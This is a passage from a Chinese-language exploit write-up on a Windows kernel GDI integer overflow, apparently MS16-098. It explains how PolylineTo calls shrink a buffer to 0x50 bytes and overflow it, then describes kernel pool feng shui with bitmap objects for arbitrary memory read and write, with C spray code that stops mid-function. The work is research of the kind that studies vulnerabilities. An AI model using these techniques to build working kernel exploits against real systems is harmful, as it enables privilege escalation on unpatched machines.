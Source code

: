 ```c
}
```

为什么是 0x50 字节呢？我们来算一下：

循环调用 `PolylineTo` 函数 0x156 次的情况下 points 的数量为

0x3fe01 * 0x156 = 0x5555556

但是在调试过程中发现程序会额外添加一个，所以计算时操作数的的值为 0x5555557，结果则是

0x5555557 * 3 = 0x10000005

0x10000005 << 4 = 0x50 (32bit)

那么程序为 points 对象分配的空间大小为 0x50 字节，却可以复制 0x5555557 个 points 对象到分配的空间，
果然在运行 poc 代码后，系统出现了 BSOD！

# Kernel Pool Feng Shui

接下来进入到比较难也很关键的步骤：内核池风水

池风水是一项用来确定内存布局的技术，在分配目标对象之前，先在内存中分配和释放一些内存，空出来一些空间，
让目标对象在下一次分配时被分配到指定的位置。现在的思路是通过池风水让目标对象于受控制对象相邻，
然后通过溢出覆盖到目标对象，更改关键数据结构获得任意地址读写。这也是开头提到的 Gdi objects，
这里选用 bitmap 对象，它的池标记为 Gh05，池类型为 Paged Session Pool，
可以用 SetBitmapBits/GetBitmapBits 函数读/写任意地址，具体可以参考
CoreLabs 的文章 [Abusing GDI for ring0 exploit primitives](https://sensepost.com/blog/2017/exploiting-ms16-098-rgnobj-integer-overflow-on-windows-8.1-x64-bit-by-abusing-gdi-objects/)
还有 KeenTeam 的 [This Time Font hunt you down in 4 bytes](http://www.slideshare.net/PeterHlavaty/windows-kernel-exploitation-this-time-font-hunt-you-down-in-4-bytes)

而 crash 的具体原因是 bFill 函数结束时分配的对象被释放掉，对象释放时会检查相邻对象的 pool header，但是溢出会把它破坏掉，
从而触发异常 BAD_POOL_HEADER 然后就 BSOD 了。

有一个办法可以防止检查时触发异常，那就是让目标对象分配在内存页的末尾。这样在对象被释放时就不会有 next chunk
从而正常释放。 要完成这样的池风水需要知道以下几个关键点：

- 内核池每页大小为 0x1000 字节，比这个还要大的分配请求会被分配到更大的内核池

- 任何请求大小超过 0x808 字节会被分配到内存页的起始处

- 连续的请求会从页的末尾分配

- 分配的对象通常会加上 0x10 字节大小的 pool header，比如请求 0x50 字节的内存，实际包含了 pool header 会分配 0x60 字节大小的内存。

现在我们来看看怎样完成内核池风水，以及它的运作原理，看一下如下利用代码：

```c
void fungshuei() {
	HBITMAP bmp;

	// Allocating 5000 Bitmaps of size 0xf80 leaving 0x80 space at end of page.
	for (int k = 0; k < 5000; k++) {
		bmp = CreateBitmap(1670, 2, 1, 8, NULL); // 1670  = 0xf80 1685 = 0xf90 allocation size 0xfa0
		bitmaps[k] = bmp;
	}

	HACCEL hAccel, hAccel2;
	LPACCEL lpAccel;
	// Initial setup for pool fengshui.  
	lpAccel = (LPACCEL)malloc(sizeof(ACCEL));
	SecureZeroMemory(lpAccel, sizeof(ACCEL));
 	
	// Allocating  7000 accelerator tables of size 0x40 0x40 *2 = 0x80 filling in the space at end of page.
	HACCEL *pAccels = (HACCEL *)malloc(sizeof(HACCEL) * 7000);
	HACCEL *pAccels2 = (HACCEL *)malloc(sizeof(HACCEL) * 7000);
	for (INT i = 0; i < 7000; i++) {
```